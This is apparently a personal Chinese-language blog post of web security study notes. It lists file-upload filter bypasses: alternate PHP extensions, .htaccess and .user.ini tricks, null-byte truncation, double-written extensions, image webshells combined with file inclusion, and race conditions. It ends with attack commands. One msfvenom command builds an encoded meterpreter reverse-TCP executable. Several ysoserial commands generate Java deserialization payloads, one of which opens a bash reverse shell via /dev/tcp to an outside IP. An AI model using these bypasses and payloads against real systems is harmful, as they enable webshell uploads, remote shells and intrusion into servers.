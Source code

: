 ```yaml
---
layout: post
author: ᴢʜᴀɴɢ
title: "Web安全"
date: 2023-05-15
music-id: 
permalink: /archives/2023-05-15/1
description: "Web"
---
```


# Web安全笔记
1. MIME-Type验证
2. 改后缀名php1、php2、phtml、php5
3. 先上传.htaccess 后上传图片
4. 先上传.user.ini 后上传图片
5. 大小写绕过
6. 后缀.php加空格绕过 or 加点绕过 or 加::$DATA绕过
7. 后缀.php加点号绕过拼接并绕过前面的两次过滤 x.php. .
8. 双写绕过 x.pphphp
9. 0x00截断 %00
10. 图片马+文件包含利用漏洞   include $file;     include.php?file=x.jpg即可shell
11. 图片马加二次渲染 找到二次渲染后不变的地方插入shell
12. 条件竞争 适合先上传再判断漏洞
13. 带有保存名称 可用%00解码后POST 或者 黑名单验证 upload-19.php/. 是文件夹形式/.
14. 数组绕过

~~~
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.150.139 LPORT=5577 -b "\x00" -i 10 -f exe -o /var/www/html/test.exe


java -jar ysoserial.jar URLDNS "http://d5z0tw.ceye.io"  > h.bin
java -jar ysoserial.jar ysoserial.exploit.JRMPListener 123 ROME "bash -i >& /dev/tcp/110.120.119.110/80 0>&1" > h.bin

java -jar ysoserial.jar JRMPClient ROME "110.120.119.110:80" > h.bin
~~~